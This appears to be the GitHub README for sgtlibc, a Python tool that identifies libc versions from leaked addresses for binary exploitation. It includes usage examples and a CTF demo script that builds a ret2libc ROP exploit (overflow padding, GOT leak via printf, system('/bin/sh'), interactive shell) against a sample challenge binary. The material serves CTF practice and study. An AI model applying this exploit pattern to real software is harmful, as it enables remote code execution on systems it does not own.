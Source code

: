 

<p align="center">
    <a href="https://github.com/serfend/sgtlibc/"><img alt="pypi version" src="https://visitor-badge.glitch.me/badge?page_id=serfend/sgtlibc&left_text=views" /></a> 
    <a href="https://pypi.python.org/pypi/sgtlibc/"><img alt="pypi version" src="https://img.shields.io/pypi/v/sgtlibc.svg" /></a> 
    <a href="https://pypistats.org/packages/sgtlibc"><img alt="pypi download" src="https://img.shields.io/pypi/dm/sgtlibc.svg" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub release" src="https://img.shields.io/github/release/serfend/sgtlibc.svg?style=flat-square" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/serfend/sgtlibc/total.svg?style=flat-square&color=%2364ff82" /></a>
    <a href="https://github.com/serfend/sgtlibc/commits"><img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/serfend/sgtlibc.svg?style=flat-square" /></a>
    <!-- <a href="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml"><img alt="GitHub Workflow Status" src="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml/badge.svg" /></a> -->
</p>





![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)![Ubuntu](https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white)![Kali](https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white)![FreeBSD](https://img.shields.io/badge/-FreeBSD-%23870000?style=for-the-badge&logo=freebsd&logoColor=white)![Deepin](https://img.shields.io/badge/Deepin-007CFF?style=for-the-badge&logo=deepin&logoColor=white)![Debian](https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white)![Cent OS](https://img.shields.io/badge/cent%20os-002260?style=for-the-badge&logo=centos&logoColor=F0F0F0)

# What?

[sgtlibc](https://github.com/serfend/sgtlibc) is a a offline python-lib for search libc function.



## Install

```shell
pip install sgtlibc
```



## Usage

```shell
usage: sgtlibc [-h] [-d [DUMP ...]] [-i [INDEX]] [-s [SYMBOLS]] [-u [UPDATE]] [-v [VERSION]] [funcs_with_addresses]

a offline python-lib for search libc function.for search version of libc.you can use like:`sgtlibc puts:aa0+read:140 --dump system binsh` or in python , like : `py:import sgtlibc;s =
sgtlibc.LibcSearcher();s.add_condition('puts',0xaa0)`

positional arguments:
  funcs_with_addresses  specify `func-name` and `func address` , split by `|`,eg: puts:aa0+read:140 , its means func-puts address = 0xaa0;func-read address = 0x140 (default: None).

options:
  -h, --help            show this help message and exit
  -d [DUMP ...], --dump [DUMP ...]
                        select funcs to dump its info (default: ['__libc_start_main_ret', 'system', 'dup2', 'read', 'write', 'str_bin_sh']).
  -i [INDEX], --index [INDEX]
                        db index on multi-database found occation (default: 0).
  -s [SYMBOLS], --symbols [SYMBOLS]
                        convert libc-elf file to symbols-file,use `libc_path [alias]` to convert.
  -u [UPDATE], --update [UPDATE]
                        update current libc database from internet , need non-microsoft-windows environment (default: False).
  -v [VERSION], --version [VERSION]
                        show version
```





## Quick Start

- in cmd.exe` or `/bin/sh`

```shell
sgtlibc puts:aa0
sgtlibc puts:aa0+read:140
sgtlibc puts:aa0+read:140 --dump system binsh
```

- in `python3`

```python
import sgtlibc
s = sgtlibc.Searcher()
s.add_condition('puts', 0xaa0)
s.add_condition('read',0x140)
print(s.dump())
print(s.dump(['system','str_bin_sh']))
```



## Example

- `main args` specify `func-name` and `func address` ,**SHOULD split by `|` **

  eg: `puts:aa0+read:140` which means:

  - func-`puts` address = `0xaa0`
  - func-`read` address =` 0x140`

- `--update` is for update libc database from internet base on `libc-database` , **require non-microsoft-window**  system

### python run

- run [python code above](/#/Quick Start) , you'll get output-result like following shows:

![image-20220605212842313](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605212842313.png)

### command run

- run command in terminal , you'll get output-result like following shows:

  ![image-20220605213023151](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605213023151.png)

### pwntools run

- use in `pwntools`

```python
from pwn import * # should run pip install pwntools before
import sgtlibc
s = libc.Searcher()
puts_addr = 0xf71234567aa0 # from leak data
s.add_condition('puts',puts_addr)
s.dump(db_index=0) # search libc , if returns multi-result ,default use index-0's result
system_addr = p00(s.get_address(sgtlibc.s_system))
binsh_addr = p00(s.get_address(sgtlibc.s_binsh))
```



### use user-libc database

> search libc from user-directory

```python
from sgtlibc.utils import configuration as config
def test_use_user_libc():
    lib_path = './libs' # here input your libc directory
    config.set(config.extension_database_path, lib_path)
    s = LibcSearcher('puts', 0xf7007)
    s.decided()
```



### add user-libc database

> add a libc.so file to database

```bash
sgtlibc -s ./libc.from_user.so:alias_input_here
```

or

```python
from sgtlibc.main import do_symbols
do_symbols(f'./libc.from_user.so:alias_input_here')
```

## CTF Problem Solve DEMO

[view all sameple files](https://github.com/serfend/sgtlibc/tree/main/samples/libc-leak/x64-babyrop)

- use exploit code

```python
import sgtlibc
from sgtlibc.gamebox import *
set_config(GameBoxConfig(
    is_local=True, file='./babyrop2', remote='192.168.0.1:25462',
    auto_load=True,
    auto_show_rop=True,
    auto_show_summary=True,
    auto_start_game=True,
    auto_load_shell_str=True,
    auto_show_symbols=True
))
s = sgtlibc.Searcher()
elf = client.elf
def exp():
	payload_exp = [b'a' * (28 + 4),fakeebp()] # overflow position
    return payload_exp
def leak(func: str):
    payload = exp()
    # here will auto-pack to p64, you can use p64 or p00 as same effect.
    payload += [elf.rop['rdi'],elf.got[func],elf.plt['printf'],elf.symbols['main']]
    sl(payload)
    rl()
    data = rc(6).ljust(8, b'\0')
    data = uc(data)
    s.add_condition(func, data)
    return data
leak('printf')
leak('read')
data = s.dump(db_index=2)  # choose your system index
system_addr = s.get_address(sgtlibc.s_system)
binsh_addr = s.get_address(sgtlibc.s_binsh)
log.info(f'system_addr:{hex(system_addr)}')
log.info(f'binsh_addr:{hex(binsh_addr)}')
payload = exp() 
payload += [elf.rop['rdi'],binsh_addr,system_addr, fakeebp()]
    
sl(payload)
interactive()
```

- result

![image-20220609134743902](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220609134743902.png)





## Notice

> default libc database is update on `2022-06-01`,which long-time ago , we fully recommanded to update it by run `sgtlibc --update`



## Status

![Alt](https://repobeats.axiom.co/api/embed/7d8920fddffed00ee7feb8d172bc7b48c86da3b8.svg "Repobeats analytics image")
